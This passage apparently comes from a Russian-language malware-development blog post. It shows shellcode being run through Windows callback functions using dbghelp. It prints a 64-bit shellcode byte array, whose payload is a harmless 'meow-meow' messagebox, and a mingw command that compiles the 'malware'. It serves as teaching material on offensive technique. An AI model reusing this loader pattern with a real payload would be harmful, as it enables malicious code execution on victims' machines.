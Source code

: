 Если вы давно читаете мой блог, то, думаю, у вас дежавю. Как можно заметить, это похоже на запуск шеллкода через [EnumDesktopsA](https://cocomelonc.github.io/tutorial/2022/06/27/malware-injection-20.html) и [EnumChildWindows](https://cocomelonc.github.io/malware/2022/07/13/malware-injection-21.html). Единственное отличие - добавление `dbghelp.h`. Как обычно, для простоты я использовал полезную нагрузку с messagebox `meow-meow`:    

```cpp
unsigned char my_payload[] =
  // 64-bit meow-meow messagebox
  "\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
  "\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
  "\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
  "\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
  "\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
  "\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
  "\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
  "\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
  "\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
  "\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
  "\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
  "\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
  "\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
  "\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
  "\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
  "\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
  "\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e"
  "\x4c\x8d\x85\x25\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
  "\x56\x07\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd"
  "\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
  "\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
  "\xd5\x4d\x65\x6f\x77\x2d\x6d\x65\x6f\x77\x21\x00\x3d\x5e"
  "\x2e\x2e\x5e\x3d\x00";
```

### демонстрация 3

Давайте посмотрим запуск шеллкода в действии. Компилируем наш "вредонос":    

```bash
x86_64-w64-mingw32-g++ -O2 hack3.cpp -o hack3.exe \
-I/usr/share/mingw-w64/include/ -s \
-ffunction-sections -fdata-sections -Wno-write-strings \
-fno-exceptions -fmerge-all-constants -static-libstdc++ \
-static-libgcc -fpermissive -ldbghelp
```

![инъекция](./images/83/2022-12-21_22-21.png){width="80%"}    
